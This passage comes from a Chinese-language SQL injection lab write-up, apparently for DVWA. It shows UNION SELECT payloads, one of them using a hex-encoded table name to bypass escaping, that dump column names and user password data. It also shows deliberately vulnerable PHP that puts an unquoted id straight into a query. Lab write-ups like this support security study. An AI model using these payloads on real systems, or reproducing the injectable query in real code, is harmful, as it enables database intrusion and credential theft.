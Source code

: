 #### 获取字段名

需要注意的是，在Med等级引号会被转义，但实际上可以用16进制绕过转义

```
1 union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273 #
```

![image-20220822171814136](./Lab7_SQL Injection.assets/image-20220822171814136.png)

**发现字段名： user_id, first_name, last_name, user, password, avatar, last_login, failed_login**

 

#### 尝试查表

```
1 or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #
```

![image-20220822172127381](./Lab7_SQL Injection.assets/image-20220822172127381.png)



## High

### 源代码

```php
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
?>
```
